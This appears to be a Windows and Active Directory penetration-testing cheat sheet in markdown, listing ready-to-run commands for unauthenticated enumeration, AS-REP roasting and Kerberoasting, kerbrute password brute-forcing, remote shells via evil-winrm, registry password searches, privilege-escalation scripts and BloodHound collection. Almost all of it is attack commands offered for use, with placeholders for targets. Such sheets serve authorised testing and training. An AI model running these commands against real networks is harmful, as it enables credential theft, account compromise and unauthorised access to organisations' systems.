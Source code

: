 # Windows 

## Enumeration without credentials
### DNS zone transfer

	host -l domain.name dnsserver
	
	dig axfr domain.name @dnsserver
	
	dnsrecon -d domain.name -t axfr
	
### SMB Anonymous Shares

	smbclient -L //server -N
	
### Anonymous RPC

	rpcclient -U "" -N <host or IP>
	
	enumdomusers
	as well as other ones, help for commands

### LDAP

	ldapsearch -h <host or IP> -p 389 -x -b 'dc=example,dc=com'
	
### Enum4linux

	enum4linux -a <host or IP>
	
### nmap 
        
	nmap -p 139,445 --script smb-vuln* <host or IP>
	
### ASREPRoast

Requires that you harvest a list of users first, from one of the above.

	GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
	
### kerbrute

If all else fails, try to brute force the users you gathered.  You can always try usernames as passwords
https://github.com/TarlogicSecurity/kerbrute

	kerbrute.py -users users.txt -passwords users.txt -domain <domain> -dc-ip <IP>
	
## Enumeration with credentials or post initial shell

### Shell

If WinRM is listening and exposed

	evil-winrm -u <username> -p <password> -i <host or IP>
	
### Get groups and privs

	whoami /all
	
### Passwords in registry

	reg query HKLM /f password /t REG_SZ /s
	
### Your favorite priv escalation script

	https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat
	
### Search for files

	Get-Childitem –Path <Folder> -File -Recurse -ErrorAction SilentlyContinue -Include *<search pattern>*
	
### Kerberos

#### Kerberoasting

	GetUserSPNs.py domain.name/user:password -outputfile kerbroast.txt
	
#### Bloodhound

Use WinRM, meterpreter, etc. to upload SharpHound.ps1

	.\SharpHound.ps1 -CollectionMethod all
	
Download the zip file and import into Bloodhound and go from there.
